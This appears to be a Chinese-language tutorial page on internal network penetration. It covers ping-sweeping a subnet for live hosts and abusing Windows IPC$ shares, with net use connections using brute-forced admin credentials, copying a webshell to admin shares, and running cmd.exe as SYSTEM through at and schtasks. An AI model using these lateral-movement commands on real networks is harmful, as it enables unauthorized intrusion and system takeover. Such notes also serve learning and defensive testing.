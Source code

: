 # 内网渗透

### C段扫描/存活探测

C段指x.x.x.x中第三个x的位置，处于同一C段意味着是在同一内网环境下。在渗透时如果一台服务器不存在可以渗透的点，则可考虑渗透同一内网下的其他服务器，通过内网渗透目标服务器。

扫描目标C段的存活主机，用脚本扫。或是直接简单用ping命令即可:

`for /L %P in (1,1,254) do @ping -w 10 -n 1 192.168.1.%P | findstr TTL=`

实现方法多种多样不一一赘述。

### ipc$管道

ipc$管道是Windows内用于传输共享内容的功能

主要用于内网中共享内容的传输(主要是内网，当然存在公网连接的情况，不过极少)

需要对方的137，138，139，445端口开放，由于这些端口存在诸如'永恒之蓝'之类的病毒肆虐，所以国内服务商好像基本禁止了这个端口的服务...所以常用于内网渗透。

主要利用方式为爆破对方管理员用户名密码，拿到管理权限，利用ipc$共享管道向对方传输shell拿到对方计算机权限

建立空连接:

`net use \\192.168.1.11\ipc$ "" /user:""`

空连接的权限有限

使用用户名密码连接:(默认管理员用户名Administrator)

`net use \\192.168.1.11\ipc$ "密码" /user:"用户名" `

查看对方共享文件:

`net view \\192.168.1.11`

当然这个指令无法查看对方的默认共享，默认共享包括
admin$(C:/windows/system32)
c$(C:/)
d$(D:/)
.
.
一系列盘符。

查看远程计算机的时间:

`net time \\192.168.1.8`

将文件拷贝到远程计算机:

`copy 1.txt \\192.168.1.11\d$`

用该命令即可将webshell传至对方pc。但我这里执行失败了，显示拒绝访问

查询发现自windows7以后，远程连接用户的权限只能是guest，无论是不是使用的administrator账户

所以该方式仅适用于windows 2000/nt 的系统(- -限制太多，还是写完，有时间装个nt虚拟机试试)

远程执行任务:

`at \\192.168.1.11\ 时间 程序`

在window8以后at命令被schtasks命令代替了，也写一下schtasks的用法

`schtasks /Create /S 192.168.1.11 /U 用户名 /P "密码" /SC only /ST 时间 /tn 任务名 /tr c:\windows\temp\cmd.exe /ru system`

参数较多，大概格式为上述命令，安利这篇博客讲的十分清楚

http://www.voidcn.com/article/p-yiwkcuyb-bnm.html

at或者schtasks执行shell后就完成了

### arp嗅探
